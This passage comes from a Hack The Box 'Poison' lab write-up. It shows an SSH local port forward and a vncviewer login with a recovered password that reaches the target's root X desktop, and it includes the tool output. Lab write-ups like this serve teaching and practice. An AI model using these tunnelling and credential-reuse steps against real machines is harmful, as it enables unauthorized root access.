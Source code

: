 >   Since this was something new, I had to learn it from a writeup that can be found from this medium [article](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5).
>
>   `ssh -L [local-port]:[remote-ip]:[remote-port]`
>
>   The above command allocates a socket to listen to port 9999 on localhost from my attack machine (kali). Whenever a connection is made to port 9999, the connection is forwarded over a secure channel and is made to port 5901 on localhost on the target machine (poison).

Finally, we can connect to the VNC software from our own machine!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# vncviewer 127.0.0.1:9999 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Warning: Cannot convert string "-*-helvetica-bold-r-*-*-16-*-*-*-*-*-*-*" to type FontStruct
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

![vncviewer](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Poison/vncviewer.png?raw=true)
